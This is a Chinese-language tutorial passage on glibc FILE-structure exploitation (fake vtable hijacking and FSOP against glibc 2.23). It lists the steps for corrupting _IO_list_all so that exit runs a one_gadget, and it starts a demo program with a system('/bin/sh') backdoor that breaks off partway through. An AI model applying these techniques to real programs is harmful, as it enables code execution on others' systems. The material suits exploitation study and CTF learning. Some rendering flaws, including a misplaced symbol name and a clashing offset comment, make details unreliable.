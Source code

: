 ### _IO_FILE_plus

```C
struct _IO_FILE_plus
{
    _IO_FILE file;                    // 0xD8
    const struct _IO_jump_t *vtable;  // *0xA8
};
```

## 伪造 vtable 劫持程序流程

根据[\_IO\_FILE\_plus](#_io_file_plus)结构体可以计算出`vtable`指针在`_IO_FILE_plus+0xD8`的位置
因为`glibc-2.23`及其以后的`glibc`的`vtable`无法写入数据，所以可以在内存中伪造一个`fake_vtable`，然后让`_IO_FILE_plus->vtable=&fake_vtable`

## FSOP

调用 `exit` 函数，程序会执行 `_IO_flush_all_lockp` ，如下:

```C
fp = (_IO_FILE *)_IO_list_all;
while (fp != NULL)
{
    // ...
    if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)) && _IO_OVERFLOW(fp, EOF) == EOF)
    {

        result = EOF;
    }
    // ...
}
```

可以看出当 `fp->_mode <= 0` 并且 `fp->_IO_write_ptr > fp->_IO_write_base` 时即可执行`vtable`中的`__overflow`

__利用思路:__
_IO_list_all
1. 修改 `_IO_FILE->_chain` 或者 `` 为 `fake_IO_FILE`
2. 设置 `fake_IO_FILE` 的 `_mode = 0`, `fp->_IO_write_ptr = 1`, `fp->_IO_write_base = 0`
3. 设置 `fake_IO_FILE` 的 `vtable = fake_vtable`
4. 设置 `fake_vtable->__overflow = one_gadget`
5. `main`返回时或者调用`exit`时即可触发

- 注意，只适用于glibc-2.23及其以下的版本

__示例:__

```C
// glibc-2.23
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <stddef.h>

void backdoor()
{
    system("/bin/sh");
}

int main()
{
    struct _IO_FILE *io = malloc(0x100);
    size_t *v = malloc(0x100);
    
    io->_mode = 0;
```